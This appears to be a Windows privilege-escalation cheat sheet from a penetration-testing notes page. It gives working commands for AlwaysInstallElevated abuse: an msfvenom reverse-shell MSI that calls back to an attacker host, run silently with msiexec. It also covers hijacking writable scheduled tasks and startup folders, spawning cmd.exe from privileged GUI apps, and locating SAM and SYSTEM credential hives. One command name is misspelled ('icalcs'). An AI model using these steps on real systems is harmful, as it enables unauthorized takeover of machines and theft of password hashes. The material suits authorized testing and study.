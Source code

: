 ## AlwaysInstallElevated

```powershell
#For checking, it should return 1 or Ox1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi > reverse.msi

#Execute and get shell
msiexec /quiet /qn /i reverse.msi
```

## Schedules Tasks

```bash
schtasks /query /fo LIST /v #Displays list of scheduled tasks, Pickup any interesting one
#Permission check - Writable means exploitable!
icalcs "path"
#Wait till the scheduled task in executed, then we'll get a shell
```

## Startup Apps

```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp #Startup applications can be found here
#Check writable permissions and transfer
#The only catch here is the system needs to be restarted
```

## Insecure GUI apps

```bash
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 
```

## SAM and SYSTEM

- Check in the following folders

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old

#First go to c:
dir /s SAM
dir /s SYSTEM
```
